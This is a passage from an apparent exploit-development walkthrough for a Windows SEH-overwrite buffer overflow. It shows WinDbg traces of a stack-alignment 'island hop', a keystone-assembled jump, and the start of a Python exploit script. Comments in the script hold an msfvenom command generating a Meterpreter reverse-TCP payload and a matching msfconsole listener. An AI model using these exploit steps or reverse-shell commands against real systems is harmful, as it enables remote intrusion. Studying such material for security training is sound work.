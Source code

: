 Break on the alignment jump and make sure the target buffer is the shellcode stub:

```
0:012> t
eax=771f6f82 ebx=01d6ba00 ecx=101576c0 edx=771f6fa0 esi=00000000 edi=00000000
eip=01d6ff5e esp=01d6b904 ebp=01d6b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01d6ff5e 6681c4520f      add     sp,0F52h
0:012> t
eax=771f6f82 ebx=01d6ba00 ecx=101576c0 edx=771f6fa0 esi=00000000 edi=00000000
eip=01d6ff63 esp=01d6c856 ebp=01d6b918 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000286
01d6ff63 ffe4            jmp     esp {01d6c856}
0:012> dd @esp L4
01d3c856  d34dc0d3 43434343 43434343 43434343
```

However, if the island hop is too close to the shellcode on stack, we may see the hop itself when aligning the stack which is unwanted:

```
0:012> u @esp L5
01d6c856 6681c4520f      add     sp,0F52h
01d6c85b ffe4            jmp     esp
01d6c85d d3c0            rol     eax,cl
01d6c85f 4d              dec     ebp
```

In this case, we can calculate the raw offset between the shellcode on stack and current EIP:

```
0:012> ? 01c6c85a - @eip
Evaluate expression: -14084 = ffffc8fc
```

And then assemble an appropriate jump:

```python
>>> from keystone import *
>>> ks = Ks(KS_ARCH_X86, KS_MODE_32)
>>> jump = [f'\\x{int(opcode):02x}' for opcode in ks.asm("jmp 0xffffc8fc;")[0]]
>>> print(f"""b'{''.join(jump)}'""")
("\xe9\xf7\xc8\xff\xff")
```




## 8. Exploit!

{% code title="sehof_exploit.py" %}
```python
#!/usr/bin/env python3

size = 6000
shellcode_size = 600

shellcode  = b'\x90' * 20
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=1337 EXITFUNC=thread -b "\x00\x09\x0a\x0d\x20" -e x86/shikata_ga_nai -f python -v shellcode
# sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST eth0; set LPORT 1337; set EXITFUNC thread; run'
shellcode += b"<SHELLCODE>"
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = LE(0x06eb9090)  # (NSEH) jmp +06
exp += LE(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction
#exp += b'\x66\x81\xc4\x52\x0f'    # (Island Hop) add sp, 0xf50
#exp += b'\xff\xe4'                # (Island Hop) jmp esp
```